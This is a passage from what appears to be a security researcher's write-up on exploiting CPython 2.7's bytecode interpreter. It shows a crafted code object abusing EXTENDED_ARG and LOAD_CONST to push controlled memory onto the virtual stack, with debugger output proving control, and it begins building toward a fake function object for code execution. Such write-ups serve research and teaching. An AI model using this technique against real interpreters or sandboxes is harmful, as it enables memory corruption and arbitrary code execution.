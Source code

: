 ```python Pushing controlled value on the virtual stack

a.func_code = types.CodeType(
  0, 0, 0, 0,
  chr(opcode.opmap['EXTENDED_ARG']) + pshort(high) +
  chr(opcode.opmap['LOAD_CONST'])   + pshort(low),
  consts, (), (), '', '', 0, ''
)
a()
```

..annnnd..

```text debugger view
D:\>python 1.py
Consts tuple @0x01db1030
Address of controled data @0x022a0654
Offset between const and our object: @0x0013bd86
Going to push [0x022a0654] on the virtual stack

*JIT debugger pops*

eax=01db1030 ebx=00000000 ecx=00000063 edx=00000046 esi=deadbeef edi=0013bd86
eip=1e0ec5fb esp=0027fc68 ebp=01e63fc0 iopl=0         nv up ei ng nz na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
python27!PyEval_EvalFrameEx+0x34b:
1e0ec5fb ff06            inc     dword ptr [esi]      ds:002b:deadbeef=????????
0:000> ub eip l1
python27!PyEval_EvalFrameEx+0x347:
1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch]
0:000> ? eax+edi*4+c
Evaluate expression: 36308564 = 022a0654
0:000> dd 022a0654 l1
022a0654  deadbeef <- the data we control in our PyStringObject
0:000> dps 022a0654-0n20 l2
022a0640  00000003
022a0644  1e226798 python27!PyString_Type
```
Perfect, we control a part of the virtual stack :).

## Game over, LOAD_FUNCTION

Once you control the virtual stack, the only limit is your imagination and the ability you have to find an interesting spot in the virtual machine. My idea was to use the *CALL_FUNCTION* opcode to craft a *PyFunctionObject* somehow, push it onto the virtual stack and to use the magic opcode. 

```c PyFunctionObject definition
typedef struct {
  PyObject_HEAD
  PyObject *func_code;  /* A code object */
  PyObject *func_globals; /* A dictionary (other mappings won't do) */
  PyObject *func_defaults;  /* NULL or a tuple */
  PyObject *func_closure; /* NULL or a tuple of cell objects */
  PyObject *func_doc;   /* The __doc__ attribute, can be anything */
  PyObject *func_name;  /* The __name__ attribute, a string object */
  PyObject *func_dict;  /* The __dict__ attribute, a dict or NULL */
  PyObject *func_weakreflist; /* List of weak references */
  PyObject *func_module;  /* The __module__ attribute, can be anything */
} PyFunctionObject;
```
